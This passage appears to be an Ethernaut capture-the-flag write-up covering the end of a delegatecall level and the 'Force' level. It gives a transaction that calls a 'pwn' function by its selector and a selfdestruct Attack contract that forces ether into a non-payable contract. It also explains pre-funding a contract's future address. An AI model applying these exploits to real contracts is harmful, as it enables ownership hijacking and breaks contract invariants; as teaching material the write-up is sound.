 To call "pwn" function, we have to compute encoded function signature of "pwn" function in message data. Encoded function signature is first 4 bytes of keccak256 hash of function signature. It is used to identify the function in the called contract. And to call the "pwn" function in delegate call, we have to pass it's signature in message data.
The final exploit is

```js
await sendTransaction({ from: player, to: instance, data: "0xdd365b8b" });
```

### Force

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

To complete this challenge, the challenge contract should have some amount of ether. We cannot send ether to this contract like we do for other contracts, that's because, a contract function should be defined as payable to receive ether. And there are no payable functions in this contract. Even though solidity compiler puts default implementations of "receive" and "fallback", they are not payable by default. so, we cannot send ether using any kind of message call.

But there are two other ways using which we can send ether. We can send ether to the contract before the contract is deployed. The address of the deployed contract can be calculated as it only depends on the deployer address and nonce. And if we send ether to that address before the contract is deployed, there will be no code at that address and the transaction will not be reverted. The message calls containing ether are only reverted because solidity by default adds conditions for non-payable functions to check that "msg.value" is 0, but if the code is not yet deployed, then the transaction will not be reverted. Another way is by using selfdestruct. when a contract calls self destruct, all it's balance is transfered to the address given as it's argument and even if a smart contract presents at the given address, no function is called, as a result ether is sent to that contract.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;
contract Attack {

    fallback() external payable{}
    receive() external payable{}

    function attack() public payable {
        selfdestruct(payable(0x6A91c42b1179226B3A80087CD84B8966d13c650f));
    }
}
```
